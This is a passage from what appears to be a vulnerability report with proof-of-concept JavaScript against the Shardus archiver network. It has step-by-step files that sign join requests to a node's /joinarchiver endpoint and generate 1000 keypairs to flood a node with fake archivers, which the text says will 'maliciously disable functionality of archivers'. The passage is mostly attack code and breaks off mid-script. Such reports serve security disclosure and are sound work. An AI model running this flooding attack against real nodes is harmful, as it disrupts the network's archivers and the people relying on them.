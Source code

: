 ```javascript

module.exports = {
  sign,
  initJoinReq,
}
```

5. create a file and name it `utils.js` and write below code to it

_utils.js_

```javascript
const fetch = require('node-fetch')
const { core } = require('./build/Crypto')
const { initJoinReq } = require('./sign')
const { Utils } = require('@shardus/types')

async function requestJoin(nodePort, myArchiverIp, myArchiverPort, keypair) {
  const realCurve = core.convertSkToCurve(keypair.secretKey)
  const curve = realCurve
  const body = initJoinReq(keypair.publicKey, keypair.secretKey, curve, myArchiverIp, myArchiverPort)

  const url = `http://localhost:${nodePort}/joinarchiver`

  const res = await fetch.default(url, {
    method: 'post',
    body: Utils.safeStringify(body),
    headers: { 'Content-Type': 'application/json' },
    timeout: 100 * 1000,
  })

  console.log(`added archiver ${myArchiverPort}: `, await res.json())
}

module.exports = {
  requestJoin,
}
```

6. then create a file and name it `join.js` and copy below code into it. This file sends at most 1000 join request to a node with port `nodePort` which is 9004 (you can change it if your nodes are running in different ports). It also tells the node for each join request, our archiver port is a number between `myArchiverPortStart` to `myArchiverPortEnd`. Archivers with different `publicKey` but same `ip:port` are allowed to join the network. which is a bug too, but that is not case of this report, Anyway, we want our new archivers to have different `ip:port` because later we need it to maliciously disable functionality of archivers.

_join.js_

```javascript
const Crypto = require('./build/Crypto.js')

const count = 1000
const keys = []
for (let i = 0; i < count; i++) {
  const keypair = Crypto.core.generateKeypair()
  keys.push({
    publicKey: keypair.publicKey,
    secretKey: keypair.secretKey,
  })
}
writeFileSync('keys.json', JSON.stringify(keys))

const waitMs = 100
const ip = '127.0.0.1'
```
